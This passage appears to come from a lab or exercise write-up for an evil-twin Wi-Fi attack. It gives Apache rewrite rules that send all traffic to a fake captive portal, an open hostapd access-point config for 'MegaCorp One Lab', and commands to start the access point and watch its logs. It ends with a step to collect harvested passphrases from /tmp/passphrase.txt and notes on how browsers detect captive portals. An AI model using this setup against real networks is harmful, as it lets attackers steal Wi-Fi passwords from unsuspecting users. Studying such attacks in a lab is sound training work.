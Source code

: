 ```

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L]

  # Use existing snakeoil certificates
  SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
  SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
</VirtualHost>
```
6. Enable SSL module and restart apache:
```
sudo a2enmod ssl
sudo systemctl restart apache2
```
7. Create hostapd conf with SSID, channel and no encryption:
```
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```
8. Run hostapd and the AP:
```
sudo hostapd <name>.conf
```
9. Monitor any DHCP and Apache logs for incoming connections:
```
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
sudo tail -f /var/log/apache2/access.log
```
10. Check /tmp/passphrase.txt for passwords (win)!
11. Cleanup after hack, including killing the DHCP process with PID found in /var/run/dnsmasq.pid

### Weird captive portal behavior:
- Windows will not show the portal when automatically connecting, only when manually clicking connect.
- Chrome does not automatically check for captive portals on start-up, and only detects them when typing or doing a search.
